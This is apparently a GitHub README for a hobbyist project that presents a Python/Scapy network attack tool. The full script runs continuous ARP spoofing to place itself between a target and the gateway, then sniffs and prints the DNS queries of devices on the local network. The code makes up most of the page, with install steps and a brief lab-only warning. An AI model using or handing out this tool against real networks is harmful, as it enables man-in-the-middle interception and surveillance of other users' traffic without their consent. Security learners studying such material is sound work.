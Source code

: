 # 🐍 Packet Sniffing & Spoofing Tool in Python
This script is a simplified network spoofing tool built with **Python 3**, using the `scapy`, `logging`, and `threading` libraries.  
It simulates behavior similar to **Bettercap**, allowing for **ARP spoofing** and **DNS sniffing** across a local network.
---
## 📚 What I Learned

- How to manipulate network packets using Scapy.
- ARP spoofing logic and redirection.
- DNS query interception and extraction.
- Multithreading to run ARP spoofing alongside DNS sniffing.
- Real-world applications of network attacks for defensive security awareness.

---

## ⚙️ How It Works

1. **ARP Spoofing**: Sends fake ARP replies to trick the target and gateway into sending packets to the attacker’s machine.
2. **DNS Sniffing**: Captures UDP DNS requests (port 53) and prints the source IP and requested domain.

---

## 🧠 Example Output
### 📸 Demo Screenshots
<img width="414" alt="Screenshot 2025-04-24 at 12 24 56 AM" src="https://github.com/user-attachments/assets/9ef96607-abcf-474e-b7b5-d7b9c05d6875" />

---

## 🧵 Requirements

Install the required library with:

pip install scapy


### 🚧 Warning:
Use responsibly and only in legal, lab environments.

```bash

import logging
from scapy.all import ARP , send , sniff
from scapy.layers.dns import DNS , DNSQR , IP 
import threading
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def arp_spoof(target_ip , spoof_ip):
    packet = ARP(op=2, pdst=target_ip , hwdst= "ff:ff:ff:ff:ff:ff" , psrc=spoof_ip)
    send(packet , verbose = False)
    
def dns_packet(packet):
    if packet.haslayer(DNS) and packet.getlayer(DNS).qr == 0 :
        ip_src = packet [IP].src
        dns_query = packet[DNSQR].qname.decode()
        print (ip_src , dns_query)
    
def start_arp(target_ip, gateway_ip):
    while True:
        arp_spoof(target_ip, gateway_ip)
        arp_spoof (gateway_ip, target_ip)
    

target_ip = "192.168.1.0/24"
gateway_ip = "192.168.1.1"

threading.Thread(target=start_arp, args=(target_ip, gateway_ip)).start()

print ("[+] Network Trafffic : 2025 ")
print ("-"*40)
print (f"{'IP Address': <15} \t {'DNS Query' : <30}")
print ("-"*40)
sniff(filter="udp port 53" , prn=dns_packet, store=0)


#👨‍💻 Author

#Yanis Deriche — Cybersecurity & Network Security Enthusiast | Practical Labs + Projects 

#Connect with me on LinkedIn
#Explore more of my work on GitHub
